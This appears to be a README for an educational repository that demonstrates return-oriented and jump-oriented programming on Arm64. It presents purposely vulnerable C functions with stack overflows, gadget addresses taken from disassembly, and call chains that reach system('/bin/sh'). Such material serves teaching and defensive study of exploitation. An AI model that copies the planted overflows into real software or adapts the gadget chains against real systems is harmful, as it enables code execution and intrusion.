

## Return-oriented programming (ROP) and Jump-oriented-programming (JOP) examples on Arm64 platform
When the stack overflow occurs, the examples show how to use the ROP and JOP to start shell with the system api.

### Platform
Hardware: [Neoverse N1 System Development Platform (N1SDP)](https://community.arm.com/developer/tools-software/oss-platforms/w/docs/457/n1sdp-getting-started-guide) 
<br>
OS: Ubuntu 18.04.4 LTS 
<br>
GCC: gcc version 7.5.0 

### Structure
```bash 
├── Makefile
├── jop           # JOP exe       
├── jop.asm       # JOP assembly dump file 
├── jop.c         # JOP source code 
├── jop.data      # JOP input binary data 
├── jop.data.gen  # JOP input binary data generate script
├── rop           # ROP exe 
├── rop.asm       # ROP assembly dump file
├── rop.c         # ROP source code 
├── rop.data      # ROP input binary data  
└── rop.data.gen  # ROP input binary data generate script
```
### system() API address 
Add the below code to make sure the system() api linking into the binary: 
```C
void rop_symbol()
{
	system("/bin/ls"); 
}
```
```assembly
	system("/bin/ls"); // to make the system link to the binary
  400404:	90000280 	adrp	x0, 450000 <_nl_locale_subfreeres+0x1b8>
  400408:	9116e000 	add	x0, x0, #0x5b8
  40040c:	940019b7 	bl	406ae8 <__libc_system>
```
system() api address is **0x406ae8**
### Useful string "/bin/sh" address
According to the glibc do_system source code
```assembly
      /* Exec the shell.  */
      (void) __execve (SHELL_PATH, (char *const *) new_argv, __environ);
      _exit (127);

  406acc:	d0000240 	adrp	x0, 450000 <_nl_locale_subfreeres+0x1b8>
  406ad0:	b900067f 	str	wzr, [x19, #4]
  406ad4:	91344000 	add	x0, x0, #0xd10
  406ad8:	9400475e 	bl	418850 <__execve>
```
String "/bin/sh" can be found at address **0x450d10**
### ROP example
```C
void rop_bad_func()
{
	char data[16] = {0};
	unsigned long long u64 = 0;
	int fd = 0;
	fd = open("./rop.data",O_RDONLY);
	read(fd,&u64,512);
}
```

#### Useful gadgets
* gadget 1: main
```assembly
	rop_bad_func();
  40046c:	97ffffec 	bl	40041c <rop_bad_func>
	return 0;
  400470:	52800000 	mov	w0, #0x0                   	// #0
}
  400474:	a8c17bfd 	ldp	x29, x30, [sp], #16
  400478:	d65f03c0 	ret
  
```
Set X30 = next gadget address 

* gadget 2: __deregister_frame_info_bases
```assembly
  44f02c:	f9400bf3 	ldr	x19, [sp, #16]
  44f030:	a8c37bfd 	ldp	x29, x30, [sp], #48
  44f034:	d65f03c0 	ret
```
Set X19 from stack,the value is the address string "/bin/sh", and it will set to X0 at next gadget
<br>
Set X30 = next gadget address 
* gadget 3: __deregister_frame_info_bases
```assembly
  44f080:	aa1303e0 	mov	x0, x19
  44f084:	f9400bf3 	ldr	x19, [sp, #16]
  44f088:	a8c37bfd 	ldp	x29, x30, [sp], #48
  44f08c:	d65f03c0 	ret
 ```
Set X0 = X19
<br>
Set X30 = system() api address from stack
 #### Calling flow
 
 ```C
 rop_bad_func 
   -->(0x400474) main 
      --> (0x44f02c)__deregister_frame_info_bases 
         --> (0x44f080)__deregister_frame_info_bases 
	    --> system 
	       --> system 
	         --> ...
 ```
### JOP examples
```C
void jop_bad_func()
{
	jop_func_t func = NULL;
	char data[16] = {0};
	unsigned long long u64 = 0;
	int fd = 0;

	fd = open("./jop.data",O_RDONLY);
	func = jop_symbol;
	read(fd,&u64,512);
	func();
}
```
#### Useful gadgets
* gadget 1: jop_bad_func
```assembly
	func();
  400468:	f9401fa0 	ldr	x0, [x29, #56]
  40046c:	d63f0000 	blr	x0
```
Set X0 = gadget 2 address from stack 

* gadget 2: _dl_runtime_profile
```assembly
  441d84:	a94307a0 	ldp	x0, x1, [x29, #48]
  441d88:	6d4407a0 	ldp	d0, d1, [x29, #64]
  441d8c:	6d450fa2 	ldp	d2, d3, [x29, #80]
  441d90:	f94077be 	ldr	x30, [x29, #232]
  441d94:	910003bf 	mov	sp, x29
  441d98:	f94003bd 	ldr	x29, [x29]
  441d9c:	910403ff 	add	sp, sp, #0x100
  441da0:	d61f03c0 	br	x30
```
Set X0 = system() address 
<br>
Set X30 = gadget 3 address 

* gadget 3: _dl_runtime_profile
```assembly
  441cf4:	aa0003f0 	mov	x16, x0
  441cf8:	a94607a0 	ldp	x0, x1, [x29, #96]
  441cfc:	a9470fa2 	ldp	x2, x3, [x29, #112]
  441d00:	a94817a4 	ldp	x4, x5, [x29, #128]
  441d04:	a9491fa6 	ldp	x6, x7, [x29, #144]
  441d08:	6d4a07a0 	ldp	d0, d1, [x29, #160]
  441d0c:	6d4b0fa2 	ldp	d2, d3, [x29, #176]
  441d10:	6d4c17a4 	ldp	d4, d5, [x29, #192]
  441d14:	6d4d1fa6 	ldp	d6, d7, [x29, #208]
  441d18:	a9407bbd 	ldp	x29, x30, [x29]
  441d1c:	910403ff 	add	sp, sp, #0x100
  441d20:	d61f0200 	br	x16
```
Set X16 = X0 (system address)
<br>
Set X0 = "/bin/sh" string address
#### Calling flow
```C
jop_bad_func 
  --> (0x441d84)_dl_runtime_profile 
    --> (0x441cf4)_dl_runtime_profile 
       --> system
```
 
